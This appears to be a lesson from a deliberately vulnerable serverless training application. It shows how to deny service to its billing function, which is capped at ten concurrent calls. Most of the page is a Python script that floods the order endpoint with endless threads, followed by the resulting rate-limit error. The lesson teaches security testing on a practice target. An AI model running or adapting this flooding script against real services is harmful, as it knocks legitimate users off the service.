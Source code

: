 # LESSON #6: Denial of Service (DoS)

To avoid flooding the 3rd party payment processing (its not really 3rd-party, but think about it as a STIPE) the DVSA is configured to allow only 10 concurrent invocation of the billing processing.

This means that an attacker can cause a Denial of Service on the payment processing in the applicaiton, simply by sending the billing request in at least 10 parallel threads.

This simply python code will exploit it (with sample data):
```
import threading
import requests

def dos():
    payload = '{ "action":"billing", "order-id": "9f51b1e1-eff9-4dc1-8e17-7ee19ba51272", "data": {"ccn": "4242424242424242", "exp": "11/2020", "cvv": "444"} }'
    url = "https://qz0yy61905.execute-api.us-east-1.amazonaws.com/dev/order"
    headers = {"Authorization": "eyJraWQiOiIyQ1dZekh0dTV..............BVVplWk9qenw"}

    r = requests.post(url, data=payload, headers=headers)
    print (r.text)
    return


while True:
    threading.Thread(target=dos).start()

```

As a result, any other user that will try to invoke this service will receice:
```
{
  "message": "Rate Exceeded.",
  "code": "TooManyRequestsException",
  "time": "2018-12-22T23:25:29.935Z",
  "requestId": "deec6aa7-0640-11e9-9e02-a529a60fefd1",
  "statusCode": 429,
  "retryable": false,
  "retryDelay": 17.57835303415325
}
```
